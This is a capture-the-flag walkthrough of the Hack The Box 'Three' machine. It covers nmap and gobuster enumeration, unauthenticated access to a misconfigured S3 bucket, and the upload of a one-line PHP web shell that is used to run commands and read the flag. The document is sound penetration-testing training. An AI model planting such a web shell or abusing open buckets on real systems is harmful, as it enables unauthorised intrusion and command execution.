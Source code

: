 # Three

## Enumeration

Start by enumerating open ports,

```sh
$ sudo nmap -sV 10.129.122.167
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 08:47 EDT
Nmap scan report for 10.129.122.167
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.58 seconds
```

To learn more about the website, I can install the [Wappalyzer](https://www.wappalyzer.com/) browser [extension](https://www.wappalyzer.com/apps) and visit the site again.

I see that it is running Apache 2.4.29 on Ubuntu. Hack The Box also says that it should show that the site is running PHP, but I don't see that. Another way, in dev tools, I can see the headers `Server: Apache/2.4.9 (Ubuntu)` and I confirm that it is running PHP by going to http://10.129.122.167/index.php.

## VHOST Domain Enumeration

Looking at the contact page, the email for the band is `mail@thetoppers.htb`, but that domain is not resolving, so I add it to `/etc/hosts` and confirm the page still loads using that address. Next, I want to enumerate other sub-domains that the server might be hosting using an enumeration tool such as `gobuster`, `wfuzz` or `feroxbuster`.

```sh
$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: 1 Status: 400 [Size: 306]
Found: 11192521404255 Status: 400 [Size: 306]
Found: 11192521403954 Status: 400 [Size: 306]
Found: gc._msdcs Status: 400 [Size: 306]
Found: 2 Status: 400 [Size: 306]
Found: 11285521401250 Status: 400 [Size: 306]
Found: 2012 Status: 400 [Size: 306]
Found: 11290521402560 Status: 400 [Size: 306]
Found: 123 Status: 400 [Size: 306]
Found: 2011 Status: 400 [Size: 306]
Found: 3 Status: 400 [Size: 306]
Found: 4 Status: 400 [Size: 306]
Found: 2013 Status: 400 [Size: 306]
Found: 2010 Status: 400 [Size: 306]
Found: 911 Status: 400 [Size: 306]
Found: 11 Status: 400 [Size: 306]
Found: 24 Status: 400 [Size: 306]
Found: 10 Status: 400 [Size: 306]
Found: 7 Status: 400 [Size: 306]
Found: 99 Status: 400 [Size: 306]
Found: 2009 Status: 400 [Size: 306]
Found: www.1 Status: 400 [Size: 306]
Found: 50 Status: 400 [Size: 306]
Found: 12 Status: 400 [Size: 306]
Found: 20 Status: 400 [Size: 306]
Found: 2008 Status: 400 [Size: 306]
Found: 25 Status: 400 [Size: 306]
Found: 15 Status: 400 [Size: 306]
Found: 5 Status: 400 [Size: 306]
Found: www.2 Status: 400 [Size: 306]
Found: 13 Status: 400 [Size: 306]
Found: 100 Status: 400 [Size: 306]
Found: 44 Status: 400 [Size: 306]
Found: 54 Status: 400 [Size: 306]
Found: 9 Status: 400 [Size: 306]
Found: 70 Status: 400 [Size: 306]
Found: 01 Status: 400 [Size: 306]
Found: 16 Status: 400 [Size: 306]
Found: 39 Status: 400 [Size: 306]
Found: 6 Status: 400 [Size: 306]
Found: www.123 Status: 400 [Size: 306]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

This is supposed to show that `s3.thetoppers.htb` is a vhost, but it doesn't? I add it to `hosts` and it does resolve though. 🙁

I've got an issue with this scenario. Normally, the S3 buckets will be hosted in AWS, not as a VHost on Apache, so enumerating the sub-domains with `gobuster` wouldn't work. I'll give it a pass however because many people use S3 static hosting as a CDN, so I may have found the domain in the original website. In fact, that was the first thing I did.

## Exploiting Misconfigured S3 Buckets

Knowning that they are using S3 buckets for hosting, I can use the `awscli` to try to connect to the buckets unauthenticated. The AWS CLI still needs to be configured to work,

```sh
$ aws configure
AWS Access Key ID [None]: hack
AWS Secret Access Key [None]: hack
Default region name [None]: hack
Default output format [None]: hack
```

I can now use the CLI to list files in the bucket,

```sh
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-07-05 08:43:14          0 .htaccess
2024-07-05 08:43:14      11952 index.php
```

We can read from the bucket, can we write to it and create a reverse shell? First the PHP file we will attempt to upload,

```php
<?php system($_GET["cmd"]); ?>
```

And attempt to upload it,

```sh
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

That worked, so let's try to exploit it by visiting, http://thetoppers.htb/shell.php?cmd=id

```txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It worked...

So I can get the flag (skipping the reverse shell in the walkthrough) with,

```sh
curl http://thetoppers.htb/shell.php?cmd=cat%20/var/www/flag.txt
```
